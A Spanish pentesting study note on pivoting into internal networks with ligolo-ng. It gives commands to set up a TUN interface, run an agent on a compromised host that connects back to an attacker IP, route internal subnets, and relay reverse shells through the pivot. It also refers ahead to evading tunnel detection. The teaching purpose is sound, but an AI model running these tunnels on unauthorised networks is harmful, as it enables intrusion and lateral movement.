

---
tags:
  - Pivoting
  - Pentesting/Movimiento-Lateral
  - Windows
  - Linux
Fecha de actualización: 2026-07-19
Nota previa: "[[12 - RDP tunneling con SocksOverRDP]]"
Nota siguiente: "[[14 - Detección y evasión de túneles]]"
Area: "[[Pivoting y túneles.base|Pivoting y túneles]]"
---
---

Todo lo anterior es el "cómo se hacía". <mark style="background: #ADCCFFA6;">`ligolo-ng` es el estándar de facto del pivoting en 2026</mark>: en vez de un proxy SOCKS que envuelves en `proxychains`, crea una **interfaz de red TUN** en tu atacante que enruta hacia la red interna. Consecuencia enorme: <mark style="background: #8000E1A6;">usas TODAS tus herramientas nativas —`nmap -sS`, `ping`, escáneres UDP— sin proxychains y sin sus limitaciones</mark>. Fuente: [github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng).

# La diferencia con proxychains



El modelo SOCKS obliga a `-sT`/`-Pn`, no deja `ping`, y cada herramienta necesita `proxychains`. Con ligolo la red interna es, para tu SO, **una red más a la que tienes ruta**: [[01 - Fundamentos de red del pivoting|desaparecen las fricciones de SOCKS]].

# Montaje

```shell-session
# Atacante: crear la interfaz TUN (una vez)
attacker$ sudo ip tuntap add user kali mode tun ligolo
attacker$ sudo ip link set ligolo up

# Atacante: arrancar el proxy con certificado autofirmado
attacker$ ./proxy -selfcert
```
```shell-session
# Pivot: subir y ejecutar el agent (conecta de vuelta al atacante)
pivot$ ./agent -connect 10.10.14.5:11601 -ignore-cert       # agent.exe en Windows
```
```shell-session
# En la consola de ligolo: seleccionar la sesión y ver las redes del pivot
ligolo-ng » session
[Agent] » ifconfig

# Atacante (otra terminal): enrutar la red interna por la interfaz ligolo
attacker$ sudo ip route add 172.16.5.0/24 dev ligolo

# En ligolo: arrancar el túnel
[Agent] » start
```

<mark style="background: #FFB86CA6;">A partir de `start`, `nmap -sS 172.16.5.0/24`, `ping 172.16.5.15` y cualquier herramienta funcionan directos</mark>, sin envoltorios.

# Reverse listeners: recibir shells de la red interna

Ligolo también expone un puerto de tu atacante **dentro** de la red interna, para que un host interno te devuelva una reverse shell sin ruta directa:

```shell-session
# El host interno conecta a pivot:1234 -> llega a tu atacante 127.0.0.1:4444
[Agent] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444 --tcp
```

# Por qué desplaza a casi todo

| Fricción clásica | Con ligolo-ng |
| --- | --- |
| `proxychains` en cada comando | Herramientas **nativas** |
| Solo TCP `-sT`, sin `ping` | **TCP + UDP + ICMP** (`-sS`, ping OK) |
| Un tarball por SO, config manual | Un `agent` estático multiplataforma |
| *Double pivot* engorroso | Segundo `agent` + otra ruta, y ya |

> [!success]+ Flujo profesional de pivoting 2026
> **Por defecto**: `ligolo-ng`. Un binario `agent` en el pivot, ruta a la red interna, y operas como si estuvieras dentro. **Egress solo-HTTP y no puedes subir agent**: [[09 - SOCKS tunneling con Chisel|chisel]]. **Solo tienes SSH**: `ssh -D`/`sshuttle`. **Solo DNS/ICMP**: los [[10 - DNS tunneling con dnscat2|canales covert]], asumiendo su lentitud y ruido.

Ligolo va sobre TLS (`11601`) y se mimetiza razonablemente, pero ni él es invisible. Qué telemetría genera todo este pivoting y cómo diluirla: [[14 - Detección y evasión de túneles]].
